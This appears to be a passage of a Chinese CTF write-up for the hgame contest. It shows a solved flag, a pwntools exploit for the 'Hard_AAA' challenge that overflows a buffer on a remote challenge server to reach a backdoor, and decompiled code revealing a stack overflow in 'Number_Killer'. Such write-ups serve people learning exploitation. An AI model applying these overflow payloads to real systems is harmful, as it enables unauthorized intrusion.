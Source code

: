 m = x.model()

for i in flag:
    print m[i]

得到flag:

hgame{-24840*-78193_51567_2556*-26463_26729_3608_-25933_25943}

**##PWN**

* * *

****###Hard_AAA****

 **这个存在后门，直接溢出覆盖对比就行。exp

```
#!/usr/bin/python
#coding:utf-8
from pwn import *
from time import *
from LibcSearcher import *

context.log_level="debug"

EXEC_FILE = "./ROP_LEVEL0"
REMOTE_LIBC = "./db/libc6_2.24-9ubuntu2.2_amd64.so"

def main():

    r = remote('47.103.214.163', 20000)
    elf = ELF(EXEC_FILE)
    #libc = ELF(REMOTE_LIBC)

    r.recvuntil('!')
    raw_input()
    r.send('\x00'*120+'0O00O0o\x00O0\x00') 
```

```
r.interactive()

if __name__ == '__main__':
  main() 
```

**###Number_Killer**

这个题目比较有意思。

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4[11]; // [rsp+0h] [rbp-60h]
  int i; // [rsp+5Ch] [rbp-4h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  memset(v4, 0, 80uLL);
  puts("Let's Pwn me with numbers!");
  for ( i = 0; i <= 19; ++i )
  v4[i] = readll();
  return 0;
} 
```

